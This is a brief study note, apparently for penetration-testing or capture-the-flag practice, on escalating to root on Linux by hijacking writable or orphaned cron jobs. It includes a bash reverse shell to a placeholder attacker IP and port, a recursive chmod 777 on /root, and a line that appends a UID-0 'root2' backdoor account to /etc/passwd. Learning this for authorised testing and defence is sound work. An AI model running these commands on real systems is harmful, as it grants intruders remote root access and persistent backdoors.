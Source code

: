 #LinuxPrivEsc 
Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. 
If there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Any user can read the file keeping system-wide cron jobs under `/etc/crontab`

Crontab is always worth checking as it can sometimes lead to easy privilege escalation vectors. The following scenario is not uncommon in companies that do not have a certain cyber security maturity level:

1.  System administrators need to run a script at regular intervals.
2.  They create a cron job to do this
3.  After a while, the script becomes useless, and they delete it  
4.  They do not clean the relevant cron job

*Always edit the script to obtain a root reverse shell*
```bash
#!/bin/bash
bash -i >& /dev/tcp/machine_ip/port_number 0>&1 
```

>If the full path of the script is not defined, cron will refer to the paths listed under the PATH variable in the /etc/crontab

```bash
bash -i >& /dev/tcp/MACHINE_IP/PORT 0>&1;
chmod -R 777 /root/;
echo "root2:`openssl passwd toor`:0:0:root:/root:/bin/bash" >> /etc/passwd
```